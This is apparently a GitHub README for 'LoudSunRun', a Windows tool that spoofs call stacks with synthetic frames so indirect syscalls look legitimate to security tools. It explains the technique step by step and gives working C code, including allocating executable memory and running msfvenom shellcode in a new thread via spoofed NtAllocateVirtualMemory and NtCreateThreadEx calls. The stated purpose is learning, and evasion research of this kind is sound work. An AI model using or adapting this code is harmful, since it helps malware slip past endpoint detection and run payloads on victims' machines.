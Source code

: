 # LoudSunRun
Stack Spoofing with Synthetic frames based on the work of namazso, SilentMoonWalk, and VulcanRaven

## Why?
Learning purposes

## Overview
There are a few steps this program does

1. Allocate args on stack
2. Generate fake frames
3. Prep syscall
4. Spoof the return address
5. Make the call

To perform these, a param struct is passed as arg 5 and the number of stack args is passed on arg 6. The param struct contains the following:
* address of the `jmp rbx` gadget  
* the original return address (for the Spoof function to return to)
* the stack sizes of our fake frames and gadget
* the address we want our fake frames to show on the call stack
* a SSN for syscalls (if included/ommited for non indirect syscalls, it does not affect anything)

The total stack size of the fake frames is calculated and the stack args are moved accordingly. A 0 is pushed onto the stack. This cuts off the stack walk. 

Frames are then added, but in reverse order of appearence on the stack. They are planted like so  

1. Decrement stack pointer by the frame's size
2. Place the return address at the stack pointer

Then, the param struct is modified to "save" some information. The `fixup` function is loaded into the rbx, so when the function returns (to a `jmp rbx` gadget), it will land into `fixup`. Fixup then undoes all the funky stack pointer movement, restores the rbx, and jumps back to the OG return address.

## Implementation
A function can be called like so
```c
Spoof(arg1, arg2, arg3, arg4, &param, function, (PVOID)0);
```
Param is a struct containing some necessary information for the call to have fake frames added.  
The 6th argument is a pointer to the function to execute  
The 7th argument specifies the number of args to pass to the stack. It has to be at an 8 byte size.

Example of calling NtAllocateVirtualMemory with the indirect syscall method
```c 
/////////////////////////////
// Initialize param struct //
/////////////////////////////
PVOID ReturnAddress = NULL;
PRM p = { 0 };
NTSTATUS status = STATUS_SUCCESS;

// just find a JMP RBX gadget. Can look anywhere. I chose k32
p.trampoline = FindGadget((LPBYTE)GetModuleHandle(L"kernel32.dll"), 0x200000); 
printf("[+] Gadget is at 0x%llx\n", p.trampoline);

// You should probably walk the export table, but this is quick and easy.
ReturnAddress = (PBYTE)(GetProcAddress(LoadLibraryA("kernel32.dll"), "BaseThreadInitThunk")) + 0x14; 
p.BTIT_ss = CalculateFunctionStackSizeWrapper(ReturnAddress);
p.BTIT_retaddr = ReturnAddress;

ReturnAddress = (PBYTE)(GetProcAddress(LoadLibraryA("ntdll.dll"), "RtlUserThreadStart")) + 0x21;
p.RUTS_ss = CalculateFunctionStackSizeWrapper(ReturnAddress);
p.RUTS_retaddr = ReturnAddress;

p.Gadget_ss = CalculateFunctionStackSizeWrapper(p.trampoline);

// Hard coded for my machine, theoretically you do FreshyCalls or something
p.ssn = 0x18; 

/////////////////////////////
// Initialize Syscall Args //
/////////////////////////////

PVOID alloc = NULL;
SIZE_T size = 1024;

///////////////////////////
// Call with fake frames //
///////////////////////////

Spoof((PVOID)(-1), &alloc, NULL, &size, &p, pNtAllocateVirtualMemory, (PVOID)2, (PVOID)(MEM_COMMIT | MEM_RESERVE), (PVOID)PAGE_EXECUTE_READWRITE);

```

If your machine works like mine, it will look like this

![Call Stack](https://i.imgur.com/aHWnX4S.png)

Example calling calc
```
unsigned char buf[] = //msfvenom brrr

PVOID alloc = NULL;
SIZE_T size = 1024;

PVOID pNtAllocateVirtualMemory = (PBYTE)(GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory")) + 0x12;
PVOID pMemcpy = GetProcAddress(LoadLibraryA("msvcrt.dll"), "memcpy");
PVOID pNtCreateThreadEx = (PBYTE)(GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateThreadEx")) + 0x12;

p.ssn = 0x18;
Spoof((PVOID)(-1), &alloc, NULL, &size, &p, pNtAllocateVirtualMemory, (PVOID)2, (PVOID)(MEM_COMMIT | MEM_RESERVE), (PVOID)PAGE_EXECUTE_READWRITE);
Spoof(alloc, buf, (PVOID)276, NULL, &p, pMemcpy, (PVOID)0);
p.ssn = 0xc2;
PVOID hThread = NULL;
Spoof(&hThread, (PVOID)THREAD_ALL_ACCESS, NULL, (PVOID)(-1), &p, pNtCreateThreadEx, (PVOID)7, alloc, NULL, NULL, NULL, NULL, NULL, NULL);
Spoof((PVOID)INFINITE, NULL, NULL, NULL, &p, Sleep, (PVOID)0);
```
## Concerns
I have not done extensive testing with this. I only called a few functions and tried a local shellcode injection. There could be some edge cases I haven't tested. 

Please reach out to me for any comments and such. Godspeed.

## Credits
5pider - Gadget Finder code  
namazso - Return Address Spoofing  
klezvirus - SilentMoonWalk (for Frame funky things)  
william-burgess - Vulcan Raven (for finding stack wrapper)
